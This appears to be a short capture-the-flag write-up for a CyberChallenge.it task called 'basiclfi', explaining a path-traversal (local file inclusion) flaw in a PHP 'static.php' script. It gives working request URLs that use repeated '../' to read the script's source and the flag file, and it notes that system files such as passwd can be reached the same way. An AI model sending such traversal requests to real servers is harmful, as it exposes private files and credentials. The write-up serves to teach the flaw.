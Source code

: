 # basiclfi

http://basiclfi.challs.cyberchallenge.it/

This website is powered by a php server. There's a "static.php" script that basically serves .css and .js by specifying the parameter static_file in the URL

http://basiclfi.challs.cyberchallenge.it/static.php?static_file=/../static.php

This link will allow you to get the "static.php" file itself or any other file

To exfiltrate the files in the endpoint one would need to simply put enough "../" and reach whatever they want, even passwd

To get the flag simply do http://basiclfi.challs.cyberchallenge.it/static.php?static_file=/../../../../../../flag.txt